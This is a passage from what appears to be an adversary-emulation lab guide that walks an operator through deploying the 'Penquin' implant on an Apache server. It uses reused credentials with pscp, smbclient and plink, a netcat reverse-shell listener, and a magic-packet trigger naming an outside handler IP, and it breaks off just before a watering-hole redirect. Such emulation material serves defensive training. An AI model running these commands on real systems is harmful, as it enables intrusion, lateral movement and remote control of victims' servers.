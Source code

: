 * Open File Explorer and browse to `C:\Windows\System32`

* Open an elevated Windows Command Prompt (if no existing admin prompt from a
previous step)

* Use the elevated Windows Command Prompt to copy Penquin to the Apache web
server using Adalwolfa's credentials.

```bash
echo y | C:\Windows\System32\pscp.exe -pw Password2! C:\Windows\Temp\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f
```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
plink.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put plink.exe Windows\System32\plink.exe'
```

:arrow_right: Return to your RDP session to `khabibulin (10.20.20.104)` as
`adalwolfa`.

* Return to the File Explorer window in System32.

* Return to the elevated Windows Command Prompt to execute Penquin (Penquin
takes ~8 seconds to execute).

```bash
(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\Windows\System32\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23
```

* Wait for the command to return.

* :arrow_right: From your Kali Linux machine, open a new terminal tab using Ctrl+Shift+T. Rename the new tab to `Penquin NC`

* In the new tab, set up a Netcat listener for Penquin's reverse shell to connect to:

```bash
nc -lvvp 8081
```

* Open up another terminal tab and name this one to `Packet Sender`. Run the following commands to send the magic packet to the Apache server using
the `sendPacket.py` utility.

```bash
cd /opt/day1/turla
sudo -E python3 Resources/Penquin/sendPacket.py --handler_ip 176.59.15.33 --handler_port 8081 --target_ip 10.20.10.23 --target_port 8080 --payload_type base64
```

* Wait a few seconds and then check the Netcat tab (`Penquin NC`). The Netcat prompt should report a successful connection.

* In the terminal where the reverse shell has connected to the Netcat listener, paste the following command to add the
 watering hole redirection to index.html:
